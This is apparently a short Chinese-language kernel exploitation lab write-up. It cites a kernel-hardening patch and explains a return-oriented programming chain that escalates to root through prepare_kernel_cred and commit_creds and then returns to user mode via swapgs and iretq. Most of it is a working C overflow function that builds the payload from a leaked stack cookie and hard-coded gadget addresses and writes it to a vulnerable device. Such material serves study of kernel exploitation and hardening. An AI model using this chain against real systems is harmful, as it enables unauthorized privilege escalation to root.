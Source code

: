 From https://patchwork.kernel.org/project/kernel-hardening/patch/20190220180934.GA46255@beast/



### Rop Chain

步骤：

1.  ROP执行prepare_kernel_cred(0)
2.  ROP执行commit_creds()，参数为上一步的结果
3.  ROP执行swapgs; ret
4.  ROP执行iretq并且将栈设置为：**RIP|CS|RFLAGS|SP|SS**

主要修改改动为：不需要用户态提权代码，直接overflow的时候布置rop_chain提权返回后执行get_shell

overflow函数如下：

```c
unsigned long PopRdiRet = 0xffffffff815f88ec;               //pop rdi ; ret
unsigned long prepare_kernel_cred = 0xffffffff814c67f0;

unsigned long MovRdiRaxRet = 0xffffffff8166fea3;            //mov rdi, rax ; jne 0xffffffff8166fe7a ; pop rbx ; pop rbp ; ret
unsigned long CmpRdxRet = 0xffffffff81964cc4;               //cmp rdx, 8 ; jne 0xffffffff81964cbb ; pop rbx ; pop rbp ; ret
unsigned long PopRdxRet = 0xffffffff815f3327;               //pop rdx ; ret

unsigned long commit_creds = 0xffffffff814c6410;
unsigned long SwapgsRet = 0xffffffff8120109c;               //swapgs ; pop rbp ; ret
unsigned long Iret = 0xffffffff8100c0d9;
void overflow(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; 
    payload[off++] = 0x0; 
    payload[off++] = 0x0; // rbp
    payload[off++] = PopRdiRet; // ret
    payload[off++] = 0;
    payload[off++] = prepare_kernel_cred;
    //绕过MovRdiRaxRet中的跳转
    payload[off++] = PopRdxRet;
    payload[off++] = 8;
    payload[off++] = CmpRdxRet;
    payload[off++] = 0;
    payload[off++] = 0xdeadbeef;
    payload[off++] = MovRdiRaxRet;
    payload[off++] = 0;
    payload[off++] = 0xdeadbeef;

    payload[off++] = commit_creds;
    payload[off++] = SwapgsRet;
    payload[off++] = 0xdeadbeef;
    
    payload[off++] = Iret;
    payload[off++] = user_rip;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached");
}
```